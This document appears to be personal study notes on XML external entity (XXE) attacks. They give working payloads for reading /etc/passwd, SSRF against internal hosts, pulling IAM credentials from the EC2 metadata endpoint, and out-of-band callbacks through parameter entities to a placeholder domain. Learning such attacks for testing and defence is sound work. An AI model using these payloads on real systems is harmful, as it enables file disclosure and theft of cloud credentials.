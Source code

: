For example, suppose a shopping application checks for the stock level of a product by submitting the following XML to the server:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck><productId>381</productId></stockCheck>
```

**Exploit**
```xml
<?xml version="1.0" encoding="UTF-8"?> 
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]> 
<stockCheck><productId>&xxe;</productId></stockCheck>
```


## Exploiting XXE to perform SSRF attacks
```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://internal.vulnerable-website.com/"> ]>
```

- [ ] **Exploiting EC2 Metadata Endpoint** 
	- Default Directory: `http://169.254.169.254/latest/meta-data/iam/security-credentials/[username]/`
	- Could be `admin`, `ec2-default-ssm`, `s3access` (Try to bruteforce this or if it's visible in the Response then Better!)


---
# Out-of-Band XXE
- **Simple Payload**
```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://[domain name]"> ]>
```

Sometimes, XXE attacks using regular entities are <mark style="background: #ABF7F7A6;">blocked</mark>. In this situation, you might be able to use <mark style="background: #FFF3A3A6;">XML parameter entities</mark> instead. XML parameter entities are a special kind of XML entity which can only be referenced elsewhere within the DTD. For present purposes, you only need to know two things. First, the declaration of an XML parameter entity includes the *percent character* before the entity name:

```xml
<!ENTITY % myparameterentity "my parameter entity value" >
```

And second, parameter entities are *referenced using the percent character* instead of the usual ampersand
`%myparameterentity;`

This means that you can test for blind XXE using out-of-band detection via XML parameter entities as follows :-
```xml
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://[domain name]"> %xxe; ]>
```


## Exploiting Blind XXE to exfiltrate data out-of-band
It involves the attacker hosting a malicious `DTD` on a system that they control, and then invoking the external DTD from within the in-band XXE payload.
